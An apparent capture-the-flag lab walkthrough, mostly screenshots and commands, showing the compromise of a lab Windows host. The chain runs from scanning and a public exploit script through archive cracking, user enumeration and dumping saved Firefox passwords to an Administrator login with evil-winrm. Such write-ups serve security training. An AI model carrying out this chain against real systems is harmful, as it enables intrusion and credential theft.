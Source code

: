 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/46b3eebd-3b00-4c5c-b77e-90dd8649b59e)

```
nmap 192.168.2.11 -v -sC -sV -sT -p-
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/035ed021-38be-4e63-8270-fb2f2a864133)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fa958512-4acf-4958-984f-ccd4cfad714e)
```
sudo nano /etc/hosts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ce8c250-6f52-40b4-a3f2-40899c5d2c45)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e290b55-96a7-48b9-9d67-b2477d7f6f3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c75d4e0f-cf98-4bb5-a1cf-db6e6045325e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aee1b1bb-33ee-4c84-bced-2e5c09c020a8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be1b8116-e1ee-4703-b11c-a4dc6178beab)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2f6f2791-0435-4e41-8a03-76fb79c4da59)

https://www.exploit-db.com/exploits/51741
```
python3 sc.py -u http://foundation/ -l admin -p password
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2604cb3a-0647-4bb4-addd-b95747e42d7f)

```
copy C:\IT-support\members.rar C:\xampp\htdocs\members.rar
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3e6d6d4c-a717-4243-a76a-25bba2b661ed)

```
rar2john members.rar > rar.hash
john --wordlist=/home/kali/PAYLOADS/rockyou.txt rar.hash
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4cfab936-c40f-49cb-9d88-6e8389be8deb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/45092782-9ac5-4cd6-b8ea-0b184a81d8b3)

```
rpcclient -U veronika.sultanova 192.168.2.11
queryuser mikhail.larionov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/56b20868-b957-4c21-bc6a-f7354e8b3ba4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/76dc000f-ffd7-4aa5-a091-5845705994d5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5ce878b8-3221-424b-b937-6745f61ee129)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5b6ecc0f-1c65-40f7-a1d4-69f80e871f9c)

https://medium.com/@s12deff/dump-firefox-passwords-with-firepwd-and-firefox-decrypt-65350fd74503

https://medium.com/geekculture/how-to-hack-firefox-passwords-with-python-a394abf18016

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/921bab48-b214-40ca-9ca9-3166e5a5e4d4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/62bb7df3-508b-4470-aad5-6cf5c9c33f33)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cccd88c8-744c-439f-977f-7a53ec649c9e)

```
python firefox.py --non-fatal-decryption
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/83d73201-dbe6-4c2a-ad9b-5eb60cad4061)
```
evil-winrm -i 192.168.2.11 -u 'Administrator' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/144b61ef-2580-44df-ba73-cb2c927ce32a)



